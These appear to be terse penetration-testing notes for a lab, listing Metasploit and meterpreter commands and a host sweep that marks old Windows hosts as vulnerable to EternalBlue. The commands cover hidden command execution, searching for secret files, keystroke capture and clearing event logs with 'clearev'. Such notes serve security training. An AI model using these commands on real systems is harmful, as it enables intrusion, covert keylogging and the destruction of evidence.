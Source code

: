
### Metasploit
```
msfupdate 
service postgresql start
msfconsole
```

#### search
```
type:exploit platform:windows
author:HDM
search cve:2015
```

```
execute -f cmd.exe -i H
```
//stealth


```
search -f secret.*
```
// in meterpreter shell

```
run post/windows/gather
```

```
ps = show processes
migrate = need to specify the PID of the process
run post/windows/manage/migrate = migrate automatically to notepad.exe
```

#### keystroke capture
```
keyscan_start
keyscan_dump
keyscan_stop
```

> clearev = clear traces/logs etc





## Lab VA
myip: 172.16.5.50
scope: 10.50.97.0/24

```
fping -a -g 10.50.97.0/24 2>/dev/null > hostsup

10.50.97.1
10.50.97.5 - winxp - eternal blue
10.50.97.8 - server 2003 - eternal blue
10.50.97.14 - server 2003 - eternal blue
10.50.97.21

```
